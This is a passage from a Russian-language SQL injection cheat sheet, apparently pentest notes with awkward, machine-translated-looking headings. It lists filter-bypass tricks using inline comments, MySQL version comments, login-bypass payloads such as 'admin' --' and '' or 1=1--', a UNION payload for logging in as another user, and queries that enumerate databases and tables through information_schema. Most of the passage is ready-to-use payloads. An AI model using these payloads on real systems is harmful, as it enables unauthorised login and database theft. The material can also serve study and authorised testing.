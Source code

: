 === "#"
    ```sql
    DROP
    sampletable;#
    ```

### Встроенный комментарий

=== "/* comment content */"
    ```sql
    DROP/*comment*/sampletable` DR/**/OP/* bypass filtering */sampletable`
    SELECT/* replace spaces */password/**/
    FROM/**/Members
    ```

=== "/*! MYSQL exclusive*/"
    ```sql
    SELECT /*!32302 1/0, */ 1
    FROM tablename
    ```

### Kодировка строки

- `ASCII()`: вернуть значение ASCII символа
- `CHAR()`: преобразует целое число в соответствующий символ

## Универсальный пароль Backstage

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- Войти как разные пользователи `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## Памятка по впрыску

### Имя хранилища данных

```sql
SELECT database();
SELECT schema_name
FROM information_schema.schemata;
```

### Имя таблицы

=== "union query"
    ```sql
    --version=9 for MySQL 4 and version=10 for MySQL 5
    UNION
    SELECT GROUP_CONCAT(table_name)
    FROM information_schema.tables
    WHERE version = 10; /* Lists the tables in the current database*/
    UNION
    SELECT TABLE_NAME
    FROM information_schema.tables
    WHERE TABLE_SCHEMA = database(); /* Lists tables in all user-defined databases*/
    SELECT table_schema, table_name
    FROM information_schema.tables
    WHERE table_schema!='information_schema' AND table_schema!='mysql';